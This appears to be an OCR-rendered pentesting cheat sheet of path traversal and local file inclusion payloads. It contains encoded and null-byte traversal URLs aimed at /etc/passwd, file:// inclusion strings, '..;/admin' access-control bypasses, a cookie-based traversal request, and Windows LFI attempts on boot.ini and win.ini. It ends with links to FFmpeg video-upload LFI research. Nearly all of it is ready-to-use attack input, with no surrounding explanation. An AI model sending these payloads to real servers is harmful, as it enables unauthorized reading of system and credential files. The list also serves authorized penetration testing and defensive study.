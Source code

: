     https://abc.redact.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
    https://abc.redact.com/static//..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd
    https://abc.redact.com/static/../../../../../../../../../../../../../../../etc/passwd
    https://abc.redact.com/static//..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00
    https://abc.redact.com/static//..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.html
    https://abc.redact.com/asd.php?file:///etc/passwd
    https://abc.redact.com/asd.php?file:///etc/passwd%00
    https://abc.redact.com/asd.php?file:///etc/passwd%00.html
    https://abc.redact.com/asd.php?file:///etc/passwd%00.ext
    https://abc.redact.com/asd.php?file:///..//..//..//..//..//..//..//..//..//..//..//..//..//..//../etc/passwd%00.ext/etc/passwd
    https://target.com/admin..;/
    https://target.com/../admin
    https://target.com/whatever/..;/admin
    https://target.com/whatever.php~
    # Cookie based
    GET /vulnerable.php HTTP/1.1
    Cookie:usid=../../../../../../../../../../../../../etc/pasdwd
    # LFI Windows
    http://10.11.1.111/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00
    http://10.11.1.111/addguestbook.php?LANG=/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini
    http://10.11.1.111/addguestbook.php?LANG=../../../../../../../../../../../../../../../boot.ini
    http://10.11.1.111/addguestbook.php?LANG=/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00
    http://10.11.1.111/addguestbook.php?LANG=/..//..//..//..//..//..//..//..//..//..//..//..//..//..//../boot.ini%00.html
    http://10.11.1.111/addguestbook.php?LANG=C:\\boot.ini
    http://10.11.1.111/addguestbook.php?LANG=C:\\boot.ini%00
    http://10.11.1.111/addguestbook.php?LANG=C:\\boot.ini%00.html
    http://10.11.1.111/addguestbook.php?LANG=%SYSTEMROOT%\\win.ini
    http://10.11.1.111/addguestbook.php?LANG=%SYSTEMROOT%\\win.ini%00
    http://10.11.1.111/addguestbook.php?LANG=%SYSTEMROOT%\\win.ini%00.html
    http://10.11.1.111/addguestbook.php?LANG=file:///C:/boot.ini
    http://10.11.1.111/addguestbook.php?LANG=file:///C:/win.ini
    http://10.11.1.111/addguestbook.php?LANG=C:\\boot.ini%00.ext
    http://10.11.1.111/addguestbook.php?LANG=%SYSTEMROOT%\\win.ini%00.ext
    
    # LFI using video upload:
    https://github.com/FFmpeg/FFmpeg
    https://hackerone.com/reports/226756
    https://hackerone.com/reports/237381
    https://docs.google.com/presentation/d/1yqWy_aE3dQNXAhW8kxMxRqtP7qMHaIfMzUDpEqFneos/edit
    https://github.com/neex/ffmpeg-avi-m3u-xbin
    